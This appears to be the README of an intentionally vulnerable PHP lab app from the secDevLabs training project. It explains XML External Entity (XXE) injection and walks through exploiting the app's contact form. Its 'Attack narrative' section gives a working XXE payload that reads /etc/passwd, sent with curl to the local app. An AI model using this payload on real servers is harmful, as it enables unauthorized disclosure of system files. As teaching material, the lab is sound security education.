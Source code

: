# ViniJR Blog

<p align="center">
    <img src="images/blog-fe.png"/></br>
    <a href="README_PT_BR.md"><img height="24" title="Acessar conteúdo em Português" src="https://img.shields.io/badge/Acessar%20conte%C3%BAdo%20em-Portugu%C3%AAs-blue"/></a>
</p>

This is a simple PHP web application that contains an example of a Security Misconfiguration (XXE) vulnerability and the main goal of this app is to describe how a malicious user could exploit it.

## Index

- [ViniJR Blog](#vinijr-blog)
  - [Index](#index)
  - [What is XXE?](#what-is-xxe)
  - [Setup](#setup)
  - [Get to know the app ⚽️](#get-to-know-the-app-️)
  - [Attack narrative](#attack-narrative)
    - [👀](#)
      - [Non sanitized input field allows for an attacker to retrieve sensitive information](#non-sanitized-input-field-allows-for-an-attacker-to-retrieve-sensitive-information)
    - [🔥](#-1)
  - [Secure this app](#secure-this-app)
  - [PR solutions](#pr-solutions)
  - [Contributing](#contributing)

## What is XXE?

Many older or poorly configured XML processors evaluate external entity references within XML documents. External entities can be used to disclose internal files using the file URI handler, internal file shares, internal port scanning, remote code execution, and denial of service attacks.

The main goal of this app is to discuss how **XXE** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][docker install] and [Docker Compose][docker compose install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh
cd secDevLabs/owasp-top10-2021-apps/a5/vinijr-blog
```

```sh
make install
```

Then simply visit [localhost:10004][app] ! 😆

## Get to know the app ⚽️

To properly understand how this application works, you can follow these simple steps:

- Visit its homepage!
- Try sending ViniJR a message.

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Non sanitized input field allows for an attacker to retrieve sensitive information

After reviewing the inputs from the app, it is possible to identify that the section "GET IN TOUCH" allows users to send messages to the server, as shown in the following picture:

<img src="images/attack-1.png" align="center"/>

Using [Burp Suite](https://portswigger.net/burp) proxy to intercept this request (POST to contact.php) reveals that the message is being built using an XML (if you need any help setting up your proxy you should check this [guide](https://support.portswigger.net/customer/portal/articles/1783066-configuring-firefox-to-work-with-burp)):

<img src="images/attack-2.png" align="center"/>

To replicate this POST using [curl](https://curl.haxx.se/), create the following file `payload.xml`:

```XML
<?xml version="1.0" encoding="UTF-8"?>
<contact>
    <name>RAFAEL</name>
    <email>RAFAEL@EXAMPLE.com</email>
    <subject>YOU ROCK</subject>
    <message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And run:

```sh
curl -d @payload.xml localhost:10004/contact.php ; echo
```

By checking the source code of the [file](../vinijr-blog/app/contact.php), it is possible to see how this XML is loaded on the server side:

<img src="images/attack-3.png" align="center"/>

### 🔥

As no validation is being used to avoid [ENTITIES](https://www.w3schools.com/xml/xml_dtd_entities.asp) being sent to the PHP file, an attacker could create the following `evilxml.xml` to perform a XXE:

```XML
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<contact>
<name>&xxe;</name>
<email>RAFAEL@EXAMPLE.com</email>
<subject>YOU ROCK</subject>
<message>I LOVE WATCHING YOUR SKILLS, MAN</message>
</contact>
```

And, as the following picture shows, it is possible to realize that the attack succeeds and sensitive information is retrieved from the server that is hosting the vulnerable app:

```sh
curl -d @evilxml.xml localhost:10004/contact.php ; echo
```

<img src="images/attack-4.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Extract data from the server through the method showed above.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22ViniJr+Blog%22)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[docker install]: https://docs.docker.com/install/
[docker compose install]: https://docs.docker.com/compose/install/
[app]: http://localhost:10004

